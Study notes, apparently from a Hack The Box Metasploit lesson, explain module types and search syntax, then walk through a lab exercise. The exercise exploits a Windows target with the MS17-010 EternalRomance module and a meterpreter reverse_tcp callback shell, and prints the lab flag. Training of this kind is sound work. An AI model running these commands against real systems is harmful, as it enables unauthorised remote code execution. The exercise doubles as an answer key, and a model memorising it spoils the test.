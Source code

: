 # Modules
Metasploit modules are prepared scripts with a specific purpose and corresponding functions that have already been developed and tested in the wild.

## Type
The Type tag is the first level of segregation between the Metasploit modules. Looking at this field, we can tell what the piece of code for this module will accomplish.
|Type|Description|
|-|-|
|`Auxiliary`|Scanning, fuzzing, sniffing, and admin capabilities. Offer extra assistance and functionality.|
|`Encoders`|Ensure that payloads are intact to their destination.|
|`Exploits`|Defined as modules that exploit a vulnerability that will allow for the payload delivery.|
|`NOPs`|(No Operation code) Keep the payload sizes consistent across exploit attempts.|
|`Payloads`|Code runs remotely and calls back to the attacker machine to establish a connection (or shell).|
|`Plugins`|Additional scripts can be integrated within an assessment with `msfconsole` and coexist.|
|`Post`|Wide array of modules to gather information, pivot deeper, etc.|

## OS
The OS tag specifies which operating system and architecture the module was created for. Naturally, different operating systems require different code to be run to get the desired results.

## Service
The Service tag refers to the vulnerable service that is running on the target machine. For some modules, such as the `auxiliary` or `post` ones, this tag can refer to a more general activity such as `gather`, referring to the gathering of credentials, for example.

## Name
Finally, the `Name` tag explains the actual action that can be performed using this module created for a specific purpose.

## MSF - Specific Search
Use the help for more search options:
```
msf6 > help search

Usage: search [<options>] [<keywords>:<value>]
```
```
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/windows/http/exchange_proxylogon_rce    2021-03-02       excellent  Yes    Microsoft Exchange ProxyLogon RCE
   1  exploit/windows/http/exchange_proxyshell_rce    2021-04-06       excellent  Yes    Microsoft Exchange ProxyShell RCE
   2  exploit/windows/http/sharepoint_unsafe_control  2021-05-11       excellent  Yes    Microsoft SharePoint Unsafe Control and ViewState RCE
```

## MSF - Module Information
```
msf6 exploit(windows/smb/ms17_010_psexec) > info

       Name: MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
     Module: exploit/windows/smb/ms17_010_psexec
   Platform: Windows
       Arch: x86, x64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2017-03-14

  ...
```

## MSF - Target
Targets are unique operating system identifiers taken from the versions of those specific operating systems which adapt the selected exploit module to run on that particular version of the operating system.
```
msf6 exploit(windows/browser/ie_execcommand_uaf) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   IE 7 on Windows XP SP3
   2   IE 8 on Windows XP SP3
   3   IE 7 on Windows Vista
   4   IE 8 on Windows Vista
   5   IE 8 on Windows 7
   6   IE 9 on Windows 7


msf6 exploit(windows/browser/ie_execcommand_uaf) > set target 6

target => 6
```

## MSF - Permanent Target Specification
```
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > setg LHOST 10.10.14.15
```

## Questions
1. Use the Metasploit-Framework to exploit the target with EternalRomance. Find the flag.txt file on Administrator's desktop and submit the contents as the answer. **Answer: HTB{MSF-W1nD0w5-3xPL01t4t10n}**
   - Use `msfconsole` to exploit the target:
```
msf >> search EternalRom

Matching Modules
================

   #   Name                                  Disclosure Date  Rank    Check  Description
   -   ----                                  ---------------  ----    -----  -----------
   0   exploit/windows/smb/ms17_010_psexec   2017-03-14       normal  Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   1     \_ target: Automatic                .                .       .      .
   2     \_ target: PowerShell               .                .       .      .
   3     \_ target: Native upload            .                .       .      .
   4     \_ target: MOF upload               .                .       .      .
   5     \_ AKA: ETERNALSYNERGY              .                .       .      .
   6     \_ AKA: ETERNALROMANCE              .                .       .      .
   7     \_ AKA: ETERNALCHAMPION             .                .       .      .
   8     \_ AKA: ETERNALBLUE                 .                .       .      .
   9   auxiliary/admin/smb/ms17_010_command  2017-03-14       normal  No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   10    \_ AKA: ETERNALSYNERGY              .                .       .      .
   11    \_ AKA: ETERNALROMANCE              .                .       .      .
   12    \_ AKA: ETERNALCHAMPION             .                .       .      .
   13    \_ AKA: ETERNALBLUE                 .                .       .      .


Interact with a module by name or index. For example info 13, use 13 or use auxiliary/admin/smb/ms17_010_command

msf >> use 6
[*] Using configured payload windows/meterpreter/reverse_tcp
msf exploit(windows/smb/ms17_010_psexec) >> set RHOSTS 10.129.197.204
RHOSTS => 10.129.197.204
msf exploit(windows/smb/ms17_010_psexec) >> set LHOST 10.10.14.82
LHOST => 10.10.14.82
msf exploit(windows/smb/ms17_010_psexec) >> options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                         Required  Description
   ----                  ---------------                         --------  -----------
   DBGTRACE              true                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                      yes       How many times to try to leak transaction
   NAMEDPIPE                                                     no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/w  yes       List of named pipes to check
                         ordlists/named_pipes.txt
   RHOSTS                10.129.197.204                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasp
                                                                           loit/basics/using-metasploit.html
   RPORT                 445                                     yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                           no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                          no        The service display name
   SERVICE_NAME                                                  no        The service name
   SHARE                 ADMIN$                                  yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a n
                                                                           ormal read/write folder share
   SMBDomain             .                                       no        The Windows domain to use for authentication
   SMBPass                                                       no        The password for the specified username
   SMBUser                                                       no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.82      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf exploit(windows/smb/ms17_010_psexec) >> run
(C:\Users\Administrator\Desktop) > cat flag.txt
HTB{MSF-W1nD0w5-3xPL01t4t10n}
```